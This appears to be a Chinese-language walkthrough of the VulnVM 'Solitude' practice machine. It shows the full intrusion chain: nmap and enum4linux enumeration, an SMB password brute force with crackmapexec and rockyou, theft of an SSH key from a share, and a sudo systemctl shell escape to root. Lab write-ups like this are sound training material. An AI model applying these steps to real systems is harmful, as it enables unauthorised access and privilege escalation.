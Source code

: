 ```yaml
---
title: "VulnVM-Solitude"
date: 2025-03-11
categories: 
  - "vulnvm"
tags: 
  - "linux"
  - "vulnvm"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Solitude  
❯ nmap 192.168.56.115 -sV -A -p- 

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2b:c7:6c:06:c7:80:41:bc:cb:dc:fe:d6:e8:85:db:b0 (RSA)
|   256 61:d1:67:f9:8f:99:62:9b:d4:9a:70:19:ff:78:bd:77 (ECDSA)
|_  256 2b:6e:53:ab:ac:68:ca:78:a7:d6:2f:34:65:e8:5d:17 (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 08:00:27:22:A4:A8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-11T20:26:05
|_  start_date: N/A
|_nbstat: NetBIOS name: SOLITUDE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: 7h59m57s
```

## Enum4linux

```
[root@kali] /home/kali/Solitude  
❯ enum4linux -a 192.168.56.115

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                          
                                                                                                                                     
S-1-22-1-1000 Unix User\garret (Local User)                                                                                          
```

找到一个用户名：**garret**

## CrackPasswd

尝试对其进行密码爆破

```
[root@kali] /home/kali/Solitude  
❯ crackmapexec smb 192.168.56.115 -u 'garret' -p /usr/share/wordlists/rockyou.txt    

SMB         192.168.56.115  445    SOLITUDE         [+] SOLITUDE\garret:inuyasha 
```

得到密码为：**inuyasha**

## SMB

使用**smbmap**进行查看权限

![](./images/image-190.png)

查看**Shared**目录，是**ssh**密钥，将**id\_rsa**下载下来。

![](./images/image-191.png)

```
chmod 600 id_rsa
```

![](./images/image-192.png)

## Root

查看特殊命令

```
garret@solitude:~$ sudo -l
Matching Defaults entries for garret on solitude:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User garret may run the following commands on solitude:
    (ALL) NOPASSWD: /usr/bin/systemctl
```

- [systemctl | GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/)

可以使用其中的第**C**条

```
sudo systemctl
!sh
```

![](./images/image-193.png)

## Summary

`User`：通过**enum4linux**找到用户**garret**，使用**crackmapexec**进行密码爆破，在**smb**中获取到登陆密钥

`Root`：**systemctl**权限不当，直接提权。
